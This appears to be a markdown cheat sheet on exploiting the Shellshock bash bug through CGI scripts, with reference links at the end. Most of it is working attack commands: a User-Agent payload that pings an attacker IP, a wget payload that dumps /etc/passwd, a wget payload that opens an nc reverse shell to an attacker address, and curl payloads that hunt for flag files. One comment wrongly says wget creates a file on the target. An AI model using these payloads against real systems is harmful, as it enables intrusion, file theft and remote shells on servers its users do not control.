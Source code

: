 # Vulnerabilities

## Shellshock
##### Test for Shellshock Vulneratbility
```bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"

# Create environment variable x of function () { :;};
# "echo vulnerable" is outside of the variable x funtion.
# If bash echoes "vulnerable," it is vulnerable.
# If it echoes "this is a test," it is not vulnerable.
```

##### Test for Shellshock Vulneratbility using User-Agent
```bash
User-Agent = () { :;}; ping -c 5 -p "Test String" <Attacker IP Address>
```

##### Test for Shellshock Vulneratbility using CGI
```bash
# Find *.cgi programs on target
./dirsearch.py -u http://<IP Address> -e cgi -r
# Assume returns /cgi-bin/login.cgi

nmap -sV --script http-shellshock --script-args uri=/cgi-bin/login.cgi,cmd=id <Target Host> -p 80
# In the event of 500 Internal Server Error.
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/login.cgi,cmd='echo Content-Type: text/html; echo; /usr/bin/id' <Target Host>
```

##### Attack Shellshock
```bash
# Assuming dirsearch returns /cgi-bin/login.cgi

wget -U "() { foo; }; echo \"Content-Type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://<Target Host>/cgi-bin/login.cgi && cat login.cgi
# Makes HTTP request, setting User-Agent (-U) to the string.
# It creates a local file, login.cgi, on the target, and cats the file.
```

##### Establish Reverse Shell with Shellshock
```bash
# Assuming dirsearch returns /cgi-bin/login.cgi

wget -U "() { foo; }; echo; /bin/nc <Attacker IP Address> <Listening Port> -e /bin/sh" http://<IP Address>/cgi-bin/login.cgi
# Makes HTTP request, setting User-Agent (-U) to the string.
```

##### Search for Files
```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'find / -iname *flag* 2>/dev/null'" http://<Target Host>/cgi-bin/login.cgi
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /tmp/flag'" http://<Target Host>/cgi-bin/login.cgi
```

### Shellshock References
[Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug))

[CVE-2014-6271](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#Initial_report_(CVE-2014-6271))

[CVE-2014-6277](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-6277)

[CVE-2014-6278](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-6278)

[CVE-2014-7169](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-7169)

[CVE-2014-7186](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-7186)

[CVE-2014-7187](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-7187)

[nmap http-shellshock](https://nmap.org/nsedoc/scripts/http-shellshock.html)

# Bash Cheatsheets
##### [Bash scripting cheatsheet](https://devhints.io/bash)

# Bash References
##### [Bash (Unix shell)](https://en.wikipedia.org/wiki/Bash_(Unix_shell))

##### [Bash Beginner Series #3: Passing Arguments to Bash Scripts](https://linuxhandbook.com/bash-arguments/)

##### [Bash conditional statement](https://linuxhint.com/bash_conditional_statement/)